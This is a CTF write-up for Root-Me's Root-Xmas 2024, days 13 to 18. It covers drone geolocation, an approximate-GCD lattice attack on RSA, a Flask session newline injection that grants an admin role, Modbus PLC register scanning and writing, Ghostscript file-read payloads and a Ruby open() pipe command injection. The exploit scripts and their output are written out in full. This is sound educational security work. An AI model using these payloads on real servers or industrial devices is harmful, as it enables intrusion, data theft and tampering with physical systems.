

# Root-Xmas Challenge 2024 - Write-Ups for Days 13 to 18

These challenges were part of the Root-Xmas Challenge which was
organized by [Root-Me](https://root-me.org). This event was an Advent Calendar
made with CTF challenges.

## Day 13 - The lost gift (OSINT)


**Description:** I couldn't wait and opened one of my christmas presents in advance, my very first FPV drone, I had been eagerly waiting for it. I decided to try it outside, conditions were perfect: sunny, no wind and a safe spot for a maiden flight.

However, shortly after takeoff, my drone flied straight ahead and stopped responding to any of my commands. I saw it disappear in a distance, soaring over the trees, completely out of control. I forgot to activate the FailSafe mode...

Fortunately, I still have the last coordinates from the beacon signal transmitted via Wi-Fi and the last image captured by the video feed.

Could you use these clues to locate my drone?
Flag: `RM{streetnamewherethedronelanded}`

For this challenge we are given:
- a network capture `beacon.pcap`,
- a picture `FRAME10574.jpg`.


This challenge is a GEOINT challenge: we have to find the location
where the picture was taken.

The pcap file allows us to find some coordinates near the place where
the drone landed.




The coordinates in the first packet are `48.02088, -2.17719`. Those of
the last packet are `48.01625, -2.17596`. This gives us approximately
the coordinates and the direction in which the drone was flying before
disappearing. These coordinates are located in `Paimpont, Brittany, France`.


By searching a bit in the south east of the initial coordinates, we
end up finding a place with a wood fence similar to the picture.


The street is "Clos de la Terre Rouge".

**FLAG:** `RM{closdelaterrerouge}`

## Day 14 - Almost a Gift (Crypto)


**Description:** Root-Me's Santa has been very generous in the past
few days, but now come the time to be generous and slightly
challenging at the same time. Unwrap those gifts to recover the flag
Santa has prepared for you.

In this challenge we have:
- a Python script `almost-a-gift.py`

```python
from secrets import randbits
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP
from Crypto.Util.number import getPrime, bytes_to_long

R, O, o, t, M, e = [getPrime(1337) for _ in "RootMe"]
gift = [
	R * O + randbits(666),
	R * o + randbits(666),
	R * t + randbits(666),
	R * M + randbits(666),
]

n = R * e
m = open("flag.txt", "rb").read()
c = bytes_to_long(PKCS1_OAEP.new(RSA.construct((n, 2 ** 16 + 1))).encrypt(m))
print(f"{n = }")
print(f"{c = }")
print(f"{gift = }")
```

- its output `output.txt`.
```
n = 6058002433377237175068217077426535724891453464111603075403293630513795653055658763081394292029861292261036161105612308729379756128113927555906468462843050114202726411029199727655727516406314378384369292469302461605251840194177339654970163967747249428772968418606347440111143328799775693337545346837128763776996505042111351399537213169798897350062428629635965937893396465340117203083891654823911633111741384358564724237778100161010230775764765675075826402313019263809304876499530039787707572804196563822974190096589133134365993721621677166234216770872414972756044606107182442835994406135657743948523304381270299637157188052383195446064003754170183938693519628436332055771555355709568098410018460250346578088871469429215921496902136560892284294459807884849488130599501627416606045400033877118463419197613611
c = 3512674359544605871207130097557082814974902762169498487487322256364598276561900049229971038007153985829019404470361533215233739443880576658470868314306809010162357662110108297094036443667370385318202403633866065206074847075127124006912804630608516353370909028549011871739517466775636523953128454062155024372945890574976513231915149338257116031774152271311530630120301455549375045164105223728740580748873500752525490742893781357120065694721195565458894348208627356060539234230854072842354244311580651233596090474472391674141853600482245646679035071537628914157369584027134660062512709099533330945545451729262720225486974310002956650013597406162539189447190802161559384387132992855056453355404414438154181478447205096527266366400228357348687969465114623813981824247124279620301909880358940152609307698778673
gift = [6613665867955032404899707979909510894042408884604988452440575060729723301371839449835153253002870531050942319014253164972869348379611868050909639899197433337437764651168254517943007238896137478507873817695215428701014044024620941449489482505214336619312368103487402839071068892968655405305232012199632032468279615815978135395525055989085074102315629740846430709809757228486254215749889741570126507465569688448790713948067554754014292061268408403713227743309402845417685208456366849822025070314152385682758915282484710719467818354668100703393638457894726693854623323613944050018626158651947626320599002341918396236718965591034738078341626133562537579382634125513406861981668252349279267016187576085171465902611337751406937378791956417607585784569307491002277608422156436821832537087730841575313647448409339, 6874268229023051307975802283502259992861678707188656773334363303226331663388739045744114816614966149291896253703504686452656527218852262007172232136206070977762750944621127995480056542618125312821568233289557798526442068479801372558087218242405070150852619958381584558012334339688028570201619358328506636125321405259048222216734946362623304755473264815742526495357663362901866996664643227341348383564682785414392672582065312051244229644201312345545650084404394586425215118660261339884969375584744687751287194335259981509512620902254159635213257429166913178554147004870666385014159060714916974118743966623730348183365506285526363855635369789659855883462772309522380916399885553041907982716517446140650392307277867915208131994038449888185979649054635644341972328303152956653072145512593531663306843896284421, 7111489028756353620391390609909219098944613129401314845663928958320068857083904896690481938162962720488257803571264212263132106504772017806923322671568170763334209201075404969970328495397507292142754953839163821230656383597975216248345192061837495103153710251361621873664408182279015636301067639875216385899498667515525830388770894770238161401274428156646827426792192651261523482535580946011925224081809663418731410822984342293970270818128153337700963061161368854511724136784768754329343698253876034784188893143469709712725817896902123541275543212251112640660498326988996732199511903848464212347091352152371770968605108047331694232352611233812071085109249036628717936593772545892941564930165030510737616020390300278273200517531800067203731765473521447067889244102437327376095629970569934157625353957958901, 7727276005216826080481486422463007071911370761959369169673119749390867785784975769918752003726909303013410177631956991300908971669801036085779579702803222801629706230902346289282099405483888478351989127793482234486523727573641108608791571996051719614209106765068672397641220049467982178800646984135594652097103447511746172628964493183145358698225067042683666310987472931454442404041534890145345857917726626224388600453066944684422450696096166215148318645951642669415516655200319205890822668235326137599628946600230176779226789406173428927867115524686553035943878869698804303033995261984531344319279391825178353516579628317437284493595886992393041204707735719599152616170193025163797148083322178157378113795221013334345474481952576368663792869721857847431820746057613293045381735629190814610485475671133729]
```

The problem is the following: given $n = pq$ and approximate values
$x_0$, $x_1$, $x_2$ et $x_3$ of respectively $p\cdot q_0$, $p\cdot
q_1$, $p\cdot q_2$, $p\cdot q_3$ for unknown primes $q_0,q_1,q_2,q_3$,
we have to retrieve $p$ to factor $n$ and decrypt the flag.

$p$ is actually the greatest common divisor (GCD) of $p\cdot q_0$,
$p\cdot q_1$, $p\cdot q_2$ and $p\cdot q_3$.

This problem is known as AGCD (Approximate GCD). To keep it simple,
under the assumption that the introduced noise is not too big, this
problem can be solved in reasonable time with a lattice reduction
algorithm (see
[here](https://martinralbrecht.wordpress.com/2020/03/21/the-approximate-gcd-problem/)).

The initial lattice to reduce is:

$$B = \begin{pmatrix}
2^{\lambda+1} & x_0 & x_1 & \ldots & x_n\\
0 & -x_0 & 0 & \ldots & 0\\
0 & 0 & -x_0 & \ldots & 0\\
\vdots & \vdots & \ddots & \vdots\\
0 & 0 & 0 & \ldots & -x_0
\end{pmatrix}$$

where $\lambda$ is the number of unknown bits of the $x_i$ (here,
666).

All the details on why we choose this lattice are explained in
[this
blogpost](https://martinralbrecht.wordpress.com/2020/03/21/the-approximate-gcd-problem/).

After reduction, we obtain the vector $(q_0*2^{rho+1},
q_0r_1-q_1r_0, \ldots, q_0r_t-q_tr_0)$. From there we can deduce $q_0$
and finally $p = \lfloor\frac{x_0}{q_0}\rfloor$.

After recovering $p$ (`R` in the script of the challenge), it is
straightforward to decrypt the flag. I based my Sage solve script on
[this implementation](https://github.com/Lyutoon/cryptography/blob/main/agcd.sage):

```sage
from Crypto.PublicKey import RSA
from Crypto.Cipher import PKCS1_OAEP
from Crypto.Util.number import bytes_to_long,long_to_bytes

def SDA_solver(xs, rho):
    """
    Basic idea: xi / x0 = qi / q0
    Construct lattice to attack.
    B = [2^(rho+1)  x1   x2  ....  xt]
        [           -x0              ]
        [                -x0         ]
        [                   .        ]
        [                     .      ]
        [                       .    ]
        [                         -x0]
    v = (q0, q1, ..., qt)B
      = (q0*2^(rho+1), q0r1-q1r0, ..., q0rt-qtr0)
    B.LLL() to solve for q0 so we can solve for p
    """

    # 1. Construct lattice
    t = len(xs) - 1
    B = Matrix(ZZ, t+1, t+1)
    for i in range(t+1):
        B[i, i] = -xs[0]
        if i == 0:
            B[0, i] = 2^(rho+1)
        else:
            B[0, i] = xs[i]
    # 2. LLL and find p
    v = B.LLL()[0]
    q0 = v[0] // 2^(rho+1)
    p = xs[0] // q0
    return p

gift = [6613665867955032404899707979909510894042408884604988452440575060729723301371839449835153253002870531050942319014253164972869348379611868050909639899197433337437764651168254517943007238896137478507873817695215428701014044024620941449489482505214336619312368103487402839071068892968655405305232012199632032468279615815978135395525055989085074102315629740846430709809757228486254215749889741570126507465569688448790713948067554754014292061268408403713227743309402845417685208456366849822025070314152385682758915282484710719467818354668100703393638457894726693854623323613944050018626158651947626320599002341918396236718965591034738078341626133562537579382634125513406861981668252349279267016187576085171465902611337751406937378791956417607585784569307491002277608422156436821832537087730841575313647448409339, 6874268229023051307975802283502259992861678707188656773334363303226331663388739045744114816614966149291896253703504686452656527218852262007172232136206070977762750944621127995480056542618125312821568233289557798526442068479801372558087218242405070150852619958381584558012334339688028570201619358328506636125321405259048222216734946362623304755473264815742526495357663362901866996664643227341348383564682785414392672582065312051244229644201312345545650084404394586425215118660261339884969375584744687751287194335259981509512620902254159635213257429166913178554147004870666385014159060714916974118743966623730348183365506285526363855635369789659855883462772309522380916399885553041907982716517446140650392307277867915208131994038449888185979649054635644341972328303152956653072145512593531663306843896284421, 7111489028756353620391390609909219098944613129401314845663928958320068857083904896690481938162962720488257803571264212263132106504772017806923322671568170763334209201075404969970328495397507292142754953839163821230656383597975216248345192061837495103153710251361621873664408182279015636301067639875216385899498667515525830388770894770238161401274428156646827426792192651261523482535580946011925224081809663418731410822984342293970270818128153337700963061161368854511724136784768754329343698253876034784188893143469709712725817896902123541275543212251112640660498326988996732199511903848464212347091352152371770968605108047331694232352611233812071085109249036628717936593772545892941564930165030510737616020390300278273200517531800067203731765473521447067889244102437327376095629970569934157625353957958901, 7727276005216826080481486422463007071911370761959369169673119749390867785784975769918752003726909303013410177631956991300908971669801036085779579702803222801629706230902346289282099405483888478351989127793482234486523727573641108608791571996051719614209106765068672397641220049467982178800646984135594652097103447511746172628964493183145358698225067042683666310987472931454442404041534890145345857917726626224388600453066944684422450696096166215148318645951642669415516655200319205890822668235326137599628946600230176779226789406173428927867115524686553035943878869698804303033995261984531344319279391825178353516579628317437284493595886992393041204707735719599152616170193025163797148083322178157378113795221013334345474481952576368663792869721857847431820746057613293045381735629190814610485475671133729]
n = 6058002433377237175068217077426535724891453464111603075403293630513795653055658763081394292029861292261036161105612308729379756128113927555906468462843050114202726411029199727655727516406314378384369292469302461605251840194177339654970163967747249428772968418606347440111143328799775693337545346837128763776996505042111351399537213169798897350062428629635965937893396465340117203083891654823911633111741384358564724237778100161010230775764765675075826402313019263809304876499530039787707572804196563822974190096589133134365993721621677166234216770872414972756044606107182442835994406135657743948523304381270299637157188052383195446064003754170183938693519628436332055771555355709568098410018460250346578088871469429215921496902136560892284294459807884849488130599501627416606045400033877118463419197613611
c = 3512674359544605871207130097557082814974902762169498487487322256364598276561900049229971038007153985829019404470361533215233739443880576658470868314306809010162357662110108297094036443667370385318202403633866065206074847075127124006912804630608516353370909028549011871739517466775636523953128454062155024372945890574976513231915149338257116031774152271311530630120301455549375045164105223728740580748873500752525490742893781357120065694721195565458894348208627356060539234230854072842354244311580651233596090474472391674141853600482245646679035071537628914157369584027134660062512709099533330945545451729262720225486974310002956650013597406162539189447190802161559384387132992855056453355404414438154181478447205096527266366400228357348687969465114623813981824247124279620301909880358940152609307698778673

R = SDA_solver(gift,666)

#R = 2857361463786981263927025746238688770373438465952935948938300572099253156985734231106772981220552239989743635210453880885143475896530605814717502601118129671502740996275773729006972277498352029438873831827713002930412281714063567071904795103069682874484466117962897540185710607357855763419686437725678803121003877192429308721532440759945472170228437085056758897152197990386192808571631998281916141819353

e = n // R

assert (R*e == n)

phi = (e-1) * (R-1)
d = pow(2 ** 16 + 1, -1, phi)

m = bytes(PKCS1_OAEP.new(RSA.construct((int(n), int(2 ** 16 + 1), int(d)))).decrypt(long_to_bytes(c)))

print("FLAG: %s" % m.decode())
```

```
$ sage solve.sage
FLAG: RM{855364281c9986e2c1bd9513dc5230189c807b9e76cdf3e46abc429973f82e56}
```

**FLAG:** `RM{855364281c9986e2c1bd9513dc5230189c807b9e76cdf3e46abc429973f82e56}`

## Day 15 - New new... always new (Web)


**Description:** Santa sees OWASP 2025 coming very quickly, and is
frightened by all the vulnerabilities on the web. He doesn't
understand how this is possible, and besides, he does everything by
hand, so there's no problem.

The website for this challenge is almost empty. When we browse the main page, we are greeted with a "Under construction" messages and we can download the sources.


```
$ tree
.
├── app
│   ├── app
│   │   ├── app.py
│   │   ├── flag.txt
│   │   └── templates
│   │       └── index.html
│   └── Dockerfile
├── docker-compose.yml
└── README.md
```

The website is written in Python with Flask. It offers several
endpoints: `/`, `/register`, `/login`, `/dashboard` and `/admin`.

```python
import os
import uuid
import re
from flask import Flask, request, jsonify, make_response, render_template
from flask_sqlalchemy import SQLAlchemy
from werkzeug.security import generate_password_hash, check_password_hash

app = Flask(__name__)
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///app.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
db = SQLAlchemy(app)

SESSION_DIR = './sessions'
os.makedirs(SESSION_DIR, exist_ok=True)

class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    email = db.Column(db.String(120), unique=True, nullable=False)
    name = db.Column(db.String(50), nullable=False)
    role = db.Column(db.String(10), nullable=False)
    password_hash = db.Column(db.String(128), nullable=False)

with app.app_context():
    db.create_all()

def create_session(email, name, role):
    session_id = str(uuid.uuid4())
    session_file = os.path.join(SESSION_DIR, f'session_{session_id}.conf')

    with open(session_file, 'w') as f:
        f.write(f'email={email}\n')
        f.write(f'role={role}\n')
        f.write(f'name={name}\n')

    return session_id

def load_session(session_id):
    if not re.match(r'^[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}$', session_id):
        return None

    session_file = os.path.join(SESSION_DIR, f'session_{session_id}.conf')
    if not os.path.exists(session_file):
        return None

    session_data = {}
    with open(session_file, 'r') as f:
        for line in f:
            key, value = line.strip().split('=')
            session_data[key] = value
    return session_data

@app.route('/', methods=['GET'])
def home():
    return render_template("index.html")

@app.route('/register', methods=['POST'])
def register():
    email = request.json.get('email')
    name = request.json.get('name')
    password = request.json.get('password')

    password_hash = generate_password_hash(password)

    user = User(email=email, name=name, role='user', password_hash=password_hash)
    db.session.add(user)
    db.session.commit()

    return jsonify(success="User registered successfully"), 201

@app.route('/login', methods=['POST'])
def login():
    email = request.json.get('email')
    password = request.json.get('password')

    user = User.query.filter_by(email=email).first()

    if user and check_password_hash(user.password_hash, password):
        session_id = create_session(user.email, user.name, user.role)
        response = make_response(jsonify(success="Logged in successfully"))
        response.set_cookie('session_id', session_id)
        return response
    
    return jsonify(error="Invalid credentials"), 401

@app.route('/dashboard')
def dashboard():
    session_id = request.cookies.get('session_id')
    if not session_id:
        return jsonify(error="Not connected"), 401

    session_data = load_session(session_id)
    if not session_data:
        return jsonify(error="Invalid session"), 401

    return jsonify(message=f"Welcome, {session_data['name']}! Role: {session_data['role']}"), 200

@app.route('/admin')
def admin():
    session_id = request.cookies.get('session_id')
    if not session_id:
        return jsonify(error="Not connected"), 401

    session_data = load_session(session_id)
    if not session_data:
        return jsonify(error="Invalid session"), 401

    if session_data['role'] != 'admin':
        return jsonify(error="Forbidden access, you are not an administrator."), 403

    try:
        with open('flag.txt') as f:
            flag = f.read().strip()
        return jsonify(success=f"Welcome back admin! Here is the flag: {flag}"), 200
    except FileNotFoundError:
        return jsonify(error="Flag file not found, contact admin."), 404

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8000)
```

The goal is to access the `/admin` page while being logged as an
admin. 

When a user is registered, a session file is written server-side in
`create_session()`. 

```python
def create_session(email, name, role):
    session_id = str(uuid.uuid4())
    session_file = os.path.join(SESSION_DIR, f'session_{session_id}.conf')

    with open(session_file, 'w') as f:
        f.write(f'email={email}\n')
        f.write(f'role={role}\n')
        f.write(f'name={name}\n')

    return session_id
```

This file contains the following user information:
``` 
email=<USER_EMAIL>
role=user
name=<USER_NAME>
```

The vulnerability consists in an improper sanitization of user
info. Indeed, if some user registers with a name like
`dummy\nrole=admin`, the file will contain the following:
``` 
email=dummy@dummy.com
role=user
name=dummy
role=admin
```

When the session is loaded in `load_session`, the lines are processed
one after the other.
```python
session_data = {}
    with open(session_file, 'r') as f:
        for line in f:
            key, value = line.strip().split('=')
            session_data[key] = value
    return session_data
```

The key `role` will first be mapped to `user`, then to `admin`. The
user will be logged as admin!

Here is my full solve script:
```python
import requests

email = 'toto@toto.tt'
name = 'toto\nrole=admin'
password = 'toto'

data_reg = {'email': email, 'name': name, 'password': password}

r = requests.post('https://day15.challenges.xmas.root-me.org/register', json=data_reg, verify=False)

print(r.text)

data_login = {'email': email, 'password': password}

r = requests.post('https://day15.challenges.xmas.root-me.org/login', json=data_login, verify=False)

cookies = r.cookies.get_dict()

print(r.text, cookies)

r = requests.get('https://day15.challenges.xmas.root-me.org/dashboard', cookies=cookies, verify=False)

print(r.text)

r = requests.get('https://day15.challenges.xmas.root-me.org/admin', cookies=cookies, verify=False)

print(r.text)
```

```
$ python solve.py
{"success":"User registered successfully"}
{"success":"Logged in successfully"}
 {'session_id': '68f94f94-9e07-440b-8cfd-8f26ac9de5b2'}
{"message":"Welcome, toto! Role: admin"}
{"success":"Welcome back admin! Here is the flag: RM{I_Thought_Th1s_VUlnerab1ility_W4s_N0t_Imp0rtant}"}
```

**FLAG:** `RM{I_Thought_Th1s_VUlnerab1ility_W4s_N0t_Imp0rtant}`

## Day 16 - Coil in the tree (Industrial)


**Description:**
Your are currently connected to internal plant, your objectif will be to extract informations from PLC devices.

The targeted PLC stores important informations in its input registers. But... To get this information you have to:
- Scan and find a valid slave ID;
- Edit its holding register at address 0x10 with the value 0xff;
- Read input registers to get important informations (be quick, you only have 5 seconds to read this data after editing!).

This challenge is a bit unusual. We have to interact with a PLC device.

First I didn't know what to do to interact to the device. So, I asked
[my best friend](https://chatgpt.com/) (no cheating involved) who
answered me that I should use the `pymodbus` library in Python.

We first try to read the input register 0 for each slave ID in the
range 0-255 with `read_input_registers`. It will fail for invalid
slave IDs, and will only succeed for valid ones.

When we have found a valid ID, we write 0xff to register 0x10 with
`write_register`.

Finally, we read enough input registers from the valid
slave. Sometimes they are all equal to 0, I did not understand
why. But sometimes, they are equal to ASCII chars which makes a Base64
string, which gives the flag once decoded.

Here is my solve script:

```python
from pymodbus.client import ModbusTcpClient
import time

client = ModbusTcpClient('163.172.68.42', port=10016)
client.connect()

for slave_id in range(0, 256):
    try:
        result = client.read_input_registers(0, slave=slave_id)
        if not result.isError():
            print(f"Found valid slave ID: {slave_id}")
            break
    except Exception as e:
        pass

# Write to holding register
client.write_register(0x10, 0xff, slave=slave_id)

# Read input registers from address 0x00
result = client.read_input_registers(0, count=120, slave=slave_id)
print(''.join([chr(x) for x in result.registers]))
```

```
$ python solve.py
Unable to decode frame Modbus Error: Unknown response 128
[...]
Unable to decode frame Modbus Error: Unknown response 128
Found valid slave ID: 105
Q29uZ3JhdHVsYXRpb25zLCB5b3UgY2FuIHZhbGlkYXRlIHRoaXMgY2hhbGxlbmdlIHdpdGg6IFsnUk17MTNhZDFiYzJlMjViNjJ9XG4nXQ==
$ echo 'Q29uZ3JhdHVsYXRpb25zLCB5b3UgY2FuIHZhbGlkYXRlIHRoaXMgY2hhbGxlbmdlIHdpdGg6IFsnUk17MTNhZDFiYzJlMjViNjJ9XG4nXQ==' | base64 -d
Congratulations, you can validate this challenge with: ['RM{13ad1bc2e25b62}\n']
```

**FLAG:** `RM{13ad1bc2e25b62}`

## Day 17 - Ghost in the Shell (Misc)


**Description:** Santa noticed that there was no online PDF creation service. As he's a bit ‘old school’ he decided to create a PDF creation service based on Ghostscript. It's simple, you send him a Ghostscript script and he converts your work into a PDF! How it works is simple:

```
$ cat hello.gs
%!PS
/newfont /Helvetica findfont 12 scalefont setfont
100 700 moveto
(Hello, world merry Christmas) show
showpage

$ cat hello.gs | socat - TCP:dyn-01.xmas.root-me.org:PORT
```

Decode the base64 in PDF file and enjoy your document!
Your goal is to get the flag in `/tmp/flag-<RANDOM>.txt`

In this challenge we have to exploit a remote service based on
Ghostscript.

If we try to send it the example `hello.gs`, we get the following:
```
$ cat hello.gs | socat - TCP:dyn-01.xmas.root-me.org:34682
GPL Ghostscript 9.53.3 (2020-10-01)
Copyright (C) 2020 Artifex Software, Inc.  All rights reserved.
This software is supplied under the GNU AGPLv3 and comes with NO WARRANTY:
see the file COPYING for details.
Loading NimbusSans-Regular font from /usr/share/ghostscript/9.53.3/Resource/Font/NimbusSans-Regular... 5014808 3478903 1914352 627166 1 done.
Your PDF in base64 is, decode it and enjoy your creation!
JVBERi0xLjcKJcfsj6IKJSVJbnZvY2F0aW9uOiBncyAtc0RFVklDRT1[...]
```

The remote runs Ghostscript 9.53.3.

Since it is a (very) old version, my first attempt was to search a CVE
running on this
version. [CVE-2021-3781](https://bugs.ghostscript.com/show_bug.cgi?id=704342)
seemed to be the perfect candidate: it allows to run arbitrary
commands on the server by exploiting `%pipe%` special PostScript
devices.

I managed to reproduce locally the CVE using the official release of
Ghostscript 9.53.3 on GitHub, but I could not reproduce it on the
challenge remote. The vulnerability have probably been patched in the
version running on the remote.

Finally, looking for some other CVEs, I read [this blogpost](https://codeanlabs.com/blog/research/cve-2024-29510-ghostscript-format-string-exploitation/). It is actually possible to list, read and write files in `/tmp` directory with Ghostscript.

```ghostscript
% List all files under /tmp/
(/tmp/*) { = } 1024 string filenameforall

% Read and print contents of /tmp/foobar
(/tmp/foobar) (r) file 1024 string readstring pop =

% Write to a (new) file
(/tmp/newfile) (w) file dup (Hello world!) writestring closefile
```

We can finally list all files in `/tmp` with the first payload and read the flag with the second.

```ghostscript
(/tmp/flag-9fb215456edeadc855c755846be83cc310a5d262aa5d9360dd27db9cd0141a9d.txt) (r) file 1024 string readstring pop =
```

```
cat sploit.ps | socat - TCP:dyn-01.xmas.root-me.org:34682
GPL Ghostscript 9.53.3 (2020-10-01)
Copyright (C) 2020 Artifex Software, Inc.  All rights reserved.
This software is supplied under the GNU AGPLv3 and comes with NO WARRANTY:
see the file COPYING for details.
RM{Gh0Scr1pt_c4n_d0_THIS??}

Your PDF in base64 is, decode it and enjoy your creation!
JVBERi0xLjcKJcfsj6IKJSVJbnZvY2F0aW9uOiBncyAtc0RFVklDRT1wZGZ3cml0ZSAtZE5PUEFVU0UgLW[...]
```

**FLAG:** `RM{Gh0Scr1pt_c4n_d0_THIS??}`

## Day 18 - Santa's sweet words (Web)


**Description:** Santa has left you a few kind words for the end of the year ... you wouldn't do her any harm, would you?

The flag is at the root `/` of the server.

The main page allows us to click on the numbers to display some messages. 


From there, we can as well view the source code of the server, written in Ruby:

```ruby
require 'sinatra'

set :bind, '0.0.0.0'
set :show_exceptions, false
set :environment, :production

get '/' do
  send_file File.join(settings.public_folder, 'index.html')
end

get '/love' do
    send_file File.join(settings.public_folder, 'love.html')
end

get '/api/message' do
  number = params[:number]

  file_name = "#{number}.txt"

  content = open(file_name, "rb") { |f| f.read }
  content_type 'application/octet-stream'
  attachment file_name
  body content
end

get '/source' do
  content_type 'text/plain'
  File.read(__FILE__)
end
```

The source code is very short. When we ask for a message, we make a
request to `/api/message`. There is a very clear path traversal
vulnerability: we can read arbitrary `.txt` files on the server.

But we do not know the filename of the flag.

Actually, if the argument passed to `open` begins with the character
`|` (pipe), the rest of the argument is executed as a system command.
As a result, we can inject system commands:

```python
import requests

cmd = 'ls -la /'

r = requests.get("https://day18.challenges.xmas.root-me.org/api/message?number=|" + cmd + " #", verify=False)

print(r.content.decode())
```

```
$ python solve.py
/:
total 68
drwxr-xr-x   1 root root 4096 Dec 20 05:36 .
drwxr-xr-x   1 root root 4096 Dec 20 05:36 ..
-rwxr-xr-x   1 root root    0 Dec 20 05:36 .dockerenv
[...]
drwxr-xr-x   1 root root 4096 Dec 20 05:36 etc
-rw-r--r--   1 root root   40 Nov 28 12:38 flag-ruby-expert.txt
drwxr-xr-x   1 root root 4096 Dec 17 18:44 home
[...]
```

```python
import requests

cmd = 'cat flag-ruby-expert.txt'

r = requests.get("https://day18.challenges.xmas.root-me.org/api/message?number=|" + cmd + " #", verify=False)

print(r.content.decode())
```

```
$ python solve.py
RM{Why_d0esn't_Open_Ju5t_Op3n_in_rUbY??}
```

**FLAG:** `RM{Why_d0esn't_Open_Ju5t_Op3n_in_rUbY??}`
